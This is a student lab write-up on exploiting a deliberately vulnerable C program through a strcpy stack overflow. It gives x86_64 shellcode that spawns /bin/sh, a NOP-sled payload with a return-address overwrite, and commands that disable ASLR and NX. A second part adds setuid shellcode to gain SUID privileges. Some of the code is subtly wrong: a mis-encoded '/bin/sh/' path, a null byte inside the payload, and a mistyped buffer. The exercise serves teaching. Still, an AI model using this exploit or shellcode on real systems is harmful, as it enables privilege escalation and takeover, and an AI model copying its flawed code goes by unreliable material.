

# Pràctica 2

# Part 1

Vulnerable program

```c
#include <stdio.h>
#include <string.h>

void function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // <-- Here, no check 
}

int main(int argc, char *argv[]) {
    if (argc > 1) {
        function(argv[1]);
    } else {
        printf("Usage: %s <input>\n", argv[0]);
    }
    return 0;
}
```

The vulnerability is in the `strcpy(buffer, input)` function, where the user's input is copied into the local buffer without any check on the length. This allows the user to provide an input longer than 64 bytes, causing a stack *overflow*. This condition can be exploited to overwrite the return address (`ret`) and redirect the program's execution. 

For example, to run a *shellcode*.

## Offset Calculation

To correctly overwrite the value of `ret`, it is necessary to understand the memory layout on the stack.



As shown in the image, the stack grows from high to low memory addresses. So, to overwrite the return register `ret`, we need to calculate how many bytes separate the beginning of the buffer from `ret`.

Knowing that each element of the `char buffer[64]` occupies 1 byte, and that the `sfp` or `rbp` register, which points to the base of the stack frame (just before `ret`), occupies 8 bytes:

So, to reach and overwrite `ret`, we need to go through:

- 64 bytes for the `buffer`
- 8 bytes for the `SFP` (saved `rbp` register)

Total: 64 + 8 = 72 bytes.

This means the offset needed to reach and overwrite the return register `ret` is **72 bytes** from the start of the buffer.

## Payload Creation

To exploit this vulnerability, we need to create a **payload**.

A **payload** is the part of the input that is injected into the stack (or another memory area) to force the program to perform an unintended action, such as launching a shell.

In our case, we want to execute a **shellcode**, which is a sequence of instructions that opens a shell (`/bin/sh`).

### Writing the Shellcode

The shellcode must be written in **assembly language**, and then converted into **hexadecimal format** so that it can be injected into the vulnerable program.

The goal of the shellcode is to invoke the system call `execve("/bin/sh", NULL, NULL)` on our architecture (x86_64), which will give us access to an interactive shell.

```c
unsigned char shellcode[] =
  "\x6a\x3b"                    // push   0x3b
  "\x58"                        // pop    rax
  "\x99"                        // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x2f"  // mov rbx, "//bin/sh/"
  "\x53"                        // push   rbx
  "\x48\x89\xe7"                // mov    rdi, rsp
  "\x52"                        // push   rdx
  "\x57"                        // push   rdi
  "\x48\x89\xe6"                // mov    rsi, rsp
  "\x0f\x05";                   // syscall
```

After writing the shellcode, we need to complete the creation of the payload:

```c
char payload[80];
// Payload preparation
memset(payload, 0x90, sizeof(payload)); // NOP sled

memcpy(payload+16, shellcode, sizeof(shellcode)); // shellcode at offset 16
```

In this code snippet:

- We initialize an array of 80 bytes.
- We fill it with **`nop`** instructions, in hexadecimal `0x90`. This technique, known as a **NOP sled**, increases the chances that the program will land somewhere before the shellcode and slide into it, even if the return address is not exact to the byte.
- We insert the shellcode into the buffer starting at a certain offset (in this case 16), to avoid alignment issues or data corruption.

### Overwriting the Return Address

Now we need to complete the payload by adding, at the end, an address that overwrites the **return address** (`ret` register) of the function. This address must point to a location in the payload where the shellcode is present (or inside the NOP sled).

```c
void *ret_addr = (void*)(0x7fffffffecc0 + 2); // Pointing to the shellcode (with small offset)
memcpy(payload + 72, &ret_addr, 8); // Overwriting RIP after 72 bytes
```

- `0x7fffffffecc0` represents the starting address of the buffer (obtained via gdb). We add an offset of `+2` to make sure we land inside the NOP sled or directly on the shellcode.
- `memcpy(payload + 72, &ret_addr, 8)` overwrites the 8 bytes of the return address with our crafted address, so that when the function ends, execution jumps to the shellcode.

---

**Getting the Buffer Address:**

To find the address of the buffer, we start our vulnerable program with `gdb` and locate the buffer’s memory address using the command `p &buffer`.


In this case, we need to **disable kernel protections** in order to make the address of the buffer predictable and prevent randomization mechanisms like **ASLR (Address Space Layout Randomization)** from changing it each time we run the program.

---

### Disabling System Protections

To ensure our exploit works correctly, we need to disable some security protections that are active on modern systems.

- **ASLR (Address Space Layout Randomization)**  
   
   To make sure the buffer’s address — and therefore the shellcode’s address — stays the same on every run (so the exploit works reliably), we need to disable **ASLR**. This protection randomizes memory addresses every time the program is executed.

   ```bash
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   ```

- **NX (No-eXecute)**  

   The **NX protection** prevents code execution in memory regions marked as data, such as the **stack**. Since we are injecting the shellcode into the stack, we also need to disable this protection.  
   To do this, we compile the vulnerable program with the following command, disabling compiler-based protections:

   ```bash
   gcc -fno-stack-protector -z execstack vuln.c -o vuln
   ```

---

## Launching the Vulnerable Program via Exploit

At this point, with our payload fully crafted and all protections disabled, we can execute the vulnerable program using our exploit.

This can be done by making a call to `execve()`, which runs the binary and passes our payload as an argument:

```c
char *args[] = {"./vuln", payload, NULL};
execve("./vuln", args, NULL);
perror("execve");  // If it fails, print error
```

- `args` is an array of pointers that includes the program name (`"./vuln"`) and our `payload` as arguments.  

---

## Launching the Exploit

We compile and run the exploit with the following commands:

```bash
gcc -fno-stack-protector -z execstack exploit.c -o exploit
./exploit
```

If everything is set up correctly, this should result in the execution of a shell (`/bin/sh`) spawned by the shellcode.

## Full Code

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

// Shellcode per execve("/bin/sh", NULL, NULL)

unsigned char shellcode[] =
  "\x6a\x3b"                    // push   0x3b
  "\x58"                        // pop    rax
  "\x99"                        // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x2f"  // mov rbx, "//bin/sh/"
  "\x53"                        // push   rbx
  "\x48\x89\xe7"                // mov    rdi, rsp
  "\x52"                        // push   rdx
  "\x57"                        // push   rdi
  "\x48\x89\xe6"                // mov    rsi, rsp
  "\x0f\x05";                   // syscall

unsigned char* payload[80];

int main() {

    char payload[80];
    // Preparazione payload
    printf("Indirizzo di payload: %p\n", payload);
    memset(payload, 0x90, sizeof(payload)); // NOP sled

    memcpy(payload+16, shellcode, sizeof(shellcode)); // shellcode a offset 16

    void *ret_addr = (void*)(0x7fffffffecc0+2); // puntiamo dritti alla shellcode
    memcpy(payload + 72, &ret_addr, 8); // overwrite di RIP
    
    // Corretto: array di stringhe per gli argomenti
    char *args[] = {"./vuln", payload, NULL};
    execve("./vuln", args, NULL);
    perror("execve");  // Se fallisce, stampa errore
    return 1;
}

```
# Part 2 - Exploit with SUID

Now we want to exploit the vulnerability of the program with the **SUID bit enabled**, to inherit the permissions of the file's owner.

### SUID (**Set owner User ID upon execution)**

The **SUID (Set User ID)** bit is a flag that can be set on an executable file. When a program with SUID enabled is executed, the process takes on the **permissions of the file’s owner**, instead of those of the user running it.

## Modifying the Shellcode to Keep the Privileges

To do this, we just need to modify the shellcode by adding the function call `setuid(geteuid())`.

This call ensures that the current process has the same UID and EUID, keeping the privileges of the SUID binary.

To write the shellcode, we need to use syscalls, by checking the site [https://x64.syscall.sh/](https://x64.syscall.sh/)  
This site provides the full list of syscalls for Linux on 64-bit architecture.

```nasm
;geteuid()
    xor rax, rax
    mov al, 107
    syscall

    ; setuid(geteuid())
    mov rdi, rax
    mov al, 105
    syscall

    ; execve("/bin/sh", NULL, NULL)
    xor rax, rax
    mov al, 59
    xor rdi, rdi
    push rdi
    mov rdi, 0x68732f6e69622f2f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
```

- First, I **get** the EUID (with `geteuid()`), which is the real ID of the process owner.  
- Then I use `setuid()` to tell the system: "I want to use this privilege as my real UID."  
- Finally, I launch `/bin/sh`.

Converted into hexadecimal, it becomes:

```c
unsigned char shellcode[] =
  "\x6a\x6b"              // push 0x6b (geteuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x48\x89\xc7"          // mov rdi, rax
  "\x6a\x69"              // push 0x69 (setuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x6a\x3b"              // push 0x3b
  "\x58"                  // pop rax
  "\x99"                  // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"  // mov rbx, "/bin/sh"
  "\x53"                  // push rbx
  "\x48\x89\xe7"          // mov rdi, rsp
  "\x52"                  // push rdx
  "\x57"                  // push rdi
  "\x48\x89\xe6"          // mov rsi, rsp
  "\x0f\x05";             // syscall
```

So the complete code is: (identical except for the updated shellcode)

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char shellcode[] =
  "\x6a\x6b"              // push 0x6b (geteuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x48\x89\xc7"          // mov rdi, rax
  "\x6a\x69"              // push 0x69 (setuid)
  "\x58"                  // pop rax
  "\x0f\x05"              // syscall
  "\x6a\x3b"              // push 0x3b
  "\x58"                  // pop rax
  "\x99"                  // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"  // mov rbx, "/bin/sh"
  "\x53"                  // push rbx
  "\x48\x89\xe7"          // mov rdi, rsp
  "\x52"                  // push rdx
  "\x57"                  // push rdi
  "\x48\x89\xe6"          // mov rsi, rsp
  "\x0f\x05";             // syscall

unsigned char* payload[80];

int main() {
    printf("Indirizzo di payload: %p\n", payload);
    memset(payload, 0x90, sizeof(payload)); // NOP sled

    memcpy(payload, shellcode, sizeof(shellcode)); // inserisce shellcode

    void *ret_addr = (void*)(0x7fffffffecc0 + 2); // aggiornare se necessario
    memcpy(payload + 72, &ret_addr, 8); // overwrite RIP

    char *args[] = {"./vuln", (char*)payload, NULL};
    execve("./vuln", args, NULL);
    perror("execve");
    getchar();
    return 1;
}

```